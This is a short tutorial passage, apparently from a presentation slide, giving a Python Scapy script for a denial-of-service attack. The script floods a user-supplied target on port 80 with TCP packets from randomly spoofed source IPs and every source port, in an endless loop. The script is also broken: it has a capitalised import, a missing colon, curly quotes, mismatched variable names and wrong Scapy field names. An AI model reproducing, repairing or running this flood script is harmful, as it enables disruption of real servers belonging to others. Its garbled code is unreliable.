

# Multiple IP multiple port
A large number of packets are send to web server by using multiple IPs and from multiple ports. Its implementation in Python can be done with the help of Scapy. The following Python script helps implement Multiple IPs multiple port DoS attack −
Import random
from scapy.all import *
target_IP = input("Enter IP address of Target: ")
i = 1

while True:
   a = str(random.randint(1,254))
   b = str(random.randint(1,254))
   c = str(random.randint(1,254))
   d = str(random.randint(1,254))
   dot = “.”
   Source_ip = a + dot + b + dot + c + dot + d

   for source_port in range(1, 65535)
      IP1 = IP(source_IP = source_IP, destination = target_IP)
      TCP1 = TCP(srcport = source_port, dstport = 80)
      pkt = IP1 / TCP1
      send(pkt,inter = .001)

      print ("packet sent ", i)
         i = i + 1